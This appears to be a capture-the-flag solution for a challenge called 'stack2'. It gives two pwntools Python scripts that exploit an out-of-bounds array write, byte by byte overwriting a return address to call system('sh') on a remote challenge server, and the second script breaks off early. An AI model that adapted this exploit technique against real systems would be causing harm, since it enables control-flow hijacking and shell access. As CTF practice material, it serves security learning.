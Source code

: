```python
#!/usr/bin/python
#coding:utf-8
from pwn import*
system_addr=0x080485AF
leave_offset=0x84
def write_addr(addr,va):
	io.sendline("3")
	io.recvuntil("which number to change:\n")
	io.sendline(str(addr))
	io.recvuntil("new number:\n")
	io.sendline(str(va))
	io.recvuntil("5. exit\n")
io=remote('111.198.29.45','31725')
io.recvuntil("How many numbers you have:\n")
io.sendline("1")
io.recvuntil("Give me your numbers\n")
io.sendline("1")
io.recvuntil("5. exit\n")
# write  system_addr  0x08048450
write_addr(leave_offset,0X50)
write_addr(leave_offset+1,0X84)
write_addr(leave_offset+2,0X04)
write_addr(leave_offset+3,0X08)
# sh_addr  0x08048987
leave_offset+=8
print leave_offset
write_addr(leave_offset,0x87)
write_addr(leave_offset+1,0X89)
write_addr(leave_offset+2,0X04)
write_addr(leave_offset+3,0X08)
io.sendline("5")
io.interactive()
```

或者

```python
from pwn import *

g_local=True
context.log_level='debug'

if g_local:
	sh = process('./stack2')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote("47.96.239.28", 2333)

def write_byte(off, val):
	sh.send("3\n")
	sh.recvuntil("which number to change:\n")
	sh.send(str(off) + "\n")
	sh.recvuntil("new number:\n")
	sh.send(str(val) + "\n")
	sh.recvuntil("5. exit\n")

def write_dword(off, val):
	write_byte(off, val & 0xff)
	write_byte(off + 1, (val >> 8) & 0xff)
	write_byte(off + 2, (val >> 16) & 0xff)
	write_byte(off + 3, (val >> 24) & 0xff)

def exit():
	sh.send("5\n")
```